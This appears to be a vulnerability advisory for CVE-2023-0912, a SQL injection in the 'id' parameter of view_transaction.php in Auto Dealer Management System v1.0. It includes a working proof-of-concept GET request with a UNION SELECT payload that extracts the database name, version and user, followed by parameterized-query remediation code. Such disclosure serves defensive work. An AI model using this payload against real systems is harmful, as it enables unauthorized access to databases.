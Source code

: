 # Auto Dealer Management System - SQL Injection on page view_transaction.php and parameter is id, application url is (?page=vehicles/view_transaction&id=?) with low privilege authentication

### Date: 
> 18 February 2023

### CVE Assigned:
**[CVE-2023-0912](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0912)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0912) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0912)

### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Auto Dealer Management System](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
### Affected Page:
> view_transaction.php

> On this page id parameter is vulnerable to SQL Injection Attack

> URL of the vulnerable parameter is: ?page=vehicles/view_transaction&id=*
### Description:
> The auto dealer management system supports two roles of users, one is admin, and another is a normal employee. the detail of role is given below
+ Admin user has full access to the system 
+ Employee user has only a few menu access i.e. dashboard, car models and vehicle (available and transaction)
> Employee could perform the SQL Injection by viewing the vehicle transaction from his/her profile. Therefore, low-privileged users could able to get the access full system.
### Proof of Concept:
> Following steps are involved:
+ An employee view the vehicle transaction and could perform the SQL injection with vulnerable parameter (?page=vehicles/view_transaction&id=5*)
### Request:
```
GET /adms/admin/?page=vehicles/view_transaction&id=5%27+and+false+union+select+1,2,3,4,5,6,7,8,9,database(),version(),12,13,user()--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c1ig2qf0q44toal7cqbqvikli5
Connection: close
```

### Response:
![image](https://user-images.githubusercontent.com/123810418/219882001-6031474c-b28b-4401-b282-6ff470086be3.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT *, concat(firstname,' ',COALESCE(concat(middlename,' '), ''), lastname) as customer from `transaction_list` where id = :id ");
$sql->bindparam(':id', $id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading
